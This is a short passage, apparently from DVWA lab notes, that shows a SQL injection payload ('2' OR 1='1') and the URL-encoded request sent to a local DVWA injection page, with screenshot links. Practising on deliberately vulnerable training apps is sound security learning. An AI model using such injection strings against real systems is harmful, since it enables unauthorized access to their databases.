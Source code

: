 ```bash
2' OR 1='1
```

```bash
http://dvwa.localtest:8086/vulnerabilities/sqli/?id=2%27%20OR%20%271%27=%271&Submit=Submit#
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2069.png)
